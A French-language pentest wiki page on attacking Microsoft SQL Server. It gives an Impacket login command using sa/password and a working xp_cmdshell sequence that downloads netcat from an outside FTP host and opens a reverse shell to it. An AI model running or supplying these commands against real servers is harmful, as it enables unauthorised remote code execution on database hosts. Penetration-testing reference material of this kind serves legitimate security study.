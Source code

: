 ```yaml
---
title: Microsoft SQL Server
permalink: /Microsoft_SQL_Server/
---
```


# Microsoft SQL Server

Utilisation
-----------

### Connexion

Impacket posséde un outil *mssqlclient.py*. L'exemple suivant permet de se connecter avec sa/password et d'executer les commandes contenues dans *commands.txt*:

``` bash
mssqlclient.py -port 27900 sa:password@192.168.31.227 -file commands.txt
```

### Commandes utiles

Exploitation
------------

### Créer un reverse shell

Les commandes suivantes créent un reverse shell en téléchargeant netcat depuis un serveur FTP.

``` text
EXEC master.dbo.xp_cmdshell 'echo open 192.168.30.229> ftp.txt';
EXEC master.dbo.xp_cmdshell 'echo USER user>> ftp.txt';
EXEC master.dbo.xp_cmdshell 'echo 12345>> ftp.txt';
EXEC master.dbo.xp_cmdshell 'echo bin>> ftp.txt';
EXEC master.dbo.xp_cmdshell 'echo GET nc.exe>> ftp.txt';
EXEC master.dbo.xp_cmdshell 'echo bye>> ftp.txt';
EXEC master.dbo.xp_cmdshell 'ftp -v -n -s:ftp.txt';
EXEC master.dbo.xp_cmdshell 'nc.exe -nv 192.168.30.229 4444 -e cmd.exe';
```

Ressources
----------

### Vidéos

-   [DerbyCon 2016 - SQL Server Hacking on Scale using PowerShell - Scott Sutherland](https://www.youtube.com/watch?v=xLbPztByc8M)

### Outils

-   [PowerUpSQL](https://github.com/NetSPI/PowerUpSQL)


